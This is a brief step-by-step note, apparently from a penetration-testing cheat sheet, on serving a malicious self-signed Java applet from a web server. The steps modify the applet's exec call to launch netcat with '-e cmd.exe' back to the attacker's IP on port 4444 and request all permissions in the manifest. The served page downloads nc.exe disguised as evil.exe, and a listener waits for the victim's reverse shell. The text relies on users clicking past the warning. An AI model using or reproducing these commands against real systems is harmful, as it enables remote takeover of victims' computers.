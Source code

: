 #Java Applet run from browser
Will give warning message but users may just click yes

1. Modify the `Java.java` applet as required, in this case I change `f = Runtime.getRuntime().exec("cmd.exe /c " + expath);` to `f = Runtime.getRuntime().exec("cmd.exe /c " + expath + "YO.UR.IP.ADR 4444 -e cmd.exe");`

2. Create a manifest file using `echo "Permissions: all-permisions" > /root/manifest.txt`

3. Compile the code using `javac Java.java` then `jar cvfm Java.jar /root/manifest.txt Java.class`

4. Then generate a key `keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123` answering the questions as you see fit

5. And sign the applet `jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass -signedJar SignedJava.jar Java.jar signapplet`

6. Copy the files to your web root `cp Java.class SignedJava.jar /var/www`

7. Then create a html file to serve your applet `echo	'<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param	name="1" value="http://YO.UR.IP.ADR:80/evil.exe"></applet>' > /var/www/java.html`

8. Find windows nc `locate nc.exe`

9. Copy the payload (netcat in this case) `cp /usr/share/windows-binaries/nc.exe /var/www/evil.exe`

10. Create a listener `nc -lvp 4444`

11. Ensure apache is up using `service apache2 start`

On the victims box

11. Browse to your applet and watch for a shell
